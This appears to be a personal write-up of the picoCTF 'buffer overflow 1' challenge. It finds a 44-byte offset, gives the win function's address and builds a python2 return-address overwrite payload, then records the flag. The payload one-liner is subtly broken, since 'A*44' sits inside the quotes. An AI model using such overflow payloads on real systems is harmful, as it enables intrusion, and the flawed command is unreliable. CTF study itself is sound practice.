 Links [[00 - Global Index (Start Here!)]] [[01 - PicoGym]] [[Binary Exploitation]]

# [[02 - buffer overflow 1]]
### Contents
***
- [Task Description](02%20-%20buffer%20overflow%201#Task%20Description)
- [Notes](02%20-%20buffer%20overflow%201#Notes)
- [Solve Script](02%20-%20buffer%20overflow%201#Solve%20Script)

### Task Description
---
Control the return addressNow we're cooking! You can overflow the buffer and return to the flag function in the [program](https://artifacts.picoctf.net/c/252/vuln).You can view source [here](https://artifacts.picoctf.net/c/252/vuln.c). And connect with it using `nc saturn.picoctf.net 54900`

### Notes
---
quick file checks shows that it is a ELF 32 bit.
Looking in gdb-pwndbg there is an intresting function called win. This function is not called normally so it must be the flag?

Generate a cyclic pattern in python
```python
from pwn import *
g = cyclic_gen()
g.get(100)
```

Running the program with the payload gives a seg fault.
calculating the offset to be: 44

All that is left to get is the location of the win function.
0x80491f6
Generate payload
```bash
python2 -c 'print "A*44"+"\xf6\x91\x04\x08"'>payload
```
then run against the server.
```flag
picoCTF{addr3ss3s_ar3_3asy_c76b273b}
```

### Solve Scipt
---



---
Creation date: 10-10-2022
Last modified date: Monday 10th October 2022
***
